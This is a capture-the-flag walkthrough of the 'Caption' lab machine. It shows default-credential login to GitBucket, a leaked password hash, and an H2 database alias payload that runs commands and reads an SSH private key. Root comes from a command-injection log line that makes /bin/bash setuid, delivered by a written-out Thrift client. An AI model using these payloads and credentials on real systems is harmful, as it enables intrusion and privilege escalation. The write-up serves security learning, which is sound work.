 1, Recon
port scan 
	22/tcp ssh
	80/tcp http `redirect to http://caption.htb`
	8080/tcp http-proxy
By enumerate the web-contents, we find something interesting:
for port 80, there is only the `Caption Portal Login` page, but we don't have any credit.
for port 8080, we find a path `/root` we can find its role in `GitBucket`, but we could not find anything from that.
![](Pasted%20image%2020240915034953.png)

Besides that ,we still don't have any credit to login.

So crazy, when I try to use the default credit `root:root`, we successfully login.
Then we can find two repositories `root/Logservice` and `root/Caption-Portal` and we need to enumerate all the configs and find some useful credit.

I guess there would be another sub-domain for the service `Logservice`.
Very sad, there is nothing useful.

From `User management`, we find the version 
```
|GITBUCKET_VERSION|4.40.0|
|GITBUCKET_HOME|/home/margo/.gitbucket|
|DATABASE_URL|jdbc:h2:/home/margo/.gitbucket/data;MVCC=true<br><br>GitBucket is using the embedded H2 database. It's recommended that you [configure GitBucket to use an external database](https://github.com/gitbucket/gitbucket/wiki/External-database-configuration) if you're running GitBucket in a production environment.|
```
And we find another interesting page `http://caption.htb:8080/admin/dbviewer`
We can check the database from this page.
```
|USER_NAME|MAIL_ADDRESS|PASSWORD|ADMINISTRATOR|URL|REGISTERED_DATE|UPDATED_DATE|LAST_LOGIN_DATE|IMAGE|GROUP_ACCOUNT|FULL_NAME|REMOVED|DESCRIPTION|
|---|---|---|---|---|---|---|---|---|---|---|---|---|
|root|root@caption.htb|$pbkdf2-sha256$100000$O5zdxA5m9ZtnSSMnUfXK4zw9j/8WgKxo9ItXxVIPw3s=$xUd/Zorr75r/yWR9IXkW7TJlLXuEH+3U1uMAm37cBMk=|true|http://caption.htb|2024-03-08 03:01:05.0|2024-03-08 04:16:07.215|2024-09-15 07:54:33.255|<NULL>|false|Administrator|false|clob1: 'Caption Networks'|


|gitbucket-core|4.40.0|
|gist|4.23.0|
|emoji|4.6.0|
|notifications|1.11.0|
|pages|1.10.0|
```

So I guess it would be our credit hash
`$pbkdf2-sha256$100000$O5zdxA5m9ZtnSSMnUfXK4zw9j/8WgKxo9ItXxVIPw3s=$xUd/Zorr75r/yWR9IXkW7TJlLXuEH+3U1uMAm37cBMk=`
Or it would be just `root:root`

But come to the `DATABASE_URL`, we find h2 database.This kind of database would be always exploited easily by sql injections.

Then we can create the valid payload to help us to RCE
(Good resource: `https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database/') 

```
CREATE ALIAS REVEXEC AS $$ 
String shellexec(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(
        Runtime.getRuntime().exec(cmd).getInputStream()
    ).useDelimiter("\\A"); 
    return s.hasNext() ? s.next() : ""; 
} 
$$;

CALL REVEXEC('cat /home/margo/.ssh/id_ecdsa ');

Then we can get our id_rsa (ssh credit).
```

2, shell as root
Firstly we need to check the net state(verify the applications in gitbucket)
```
netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1310/java           
tcp        0      0 127.0.0.1:6082          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6081          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3923          0.0.0.0:*               LISTEN      1311/python3        
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      1312/python3        
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

`127.0.0.1:8000` is the `[Caption-Portal]` application
`127.0.0.1:9090` is the `[Logservice]` application

So if we want to check it, we need to Port forwarding
`ssh -i id_rsa margo@10.10.11.33 -L 9090:localhost:9090`

I forget this is a log analysis service, and don't have the web pages.

Let's continue checking the `app/app.py` and we found the credit of margo and admin
```
username == 'margo' and password == 'vFr&cS2#0!'
username == 'admin' and password == 'cFgjE@0%l0'
```
Although we use them to login to the service of port 80, but there is still nothing for us and we can not check `sudo -l` or switch to another user `ruth`

The way to root is using thrift client and leverage the LogService rce:
(https://thrift.apache.org/tutorial/py.html)
Steps:
1.Setup port forwarding:
`ssh -i id_ecdsa -L 9090:127.0.0.1:9090 margo@caption.htb`

2.Now on the remote machine:
Create a file called: `/tmp/malicious.log`
Edit file to include: 
`127.0.0.1 "user-agent":"'; /bin/bash /tmp/payload.sh #"`

Create another file: `/tmp/payload.sh`
Edit file to include: `chmod +s /bin/bash`

3.Switch to local machine:
create a file called: `log_service.thrift`
Edit file to include:
```
namespace go log_service

service LogService {
    string ReadLogFile(1: string filePath)
}
```

Make sure thrift is installed and run: `thrift -r --gen py log_service.thrift`

`cd gen-py`
create file called: `client.py`

edit file with:

```
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/malicious.log"
       
        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)
   
    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
    transport.close()

if __name__ == '__main__':
    main()
```

4.Root shell is then via `/bin/bash -p`.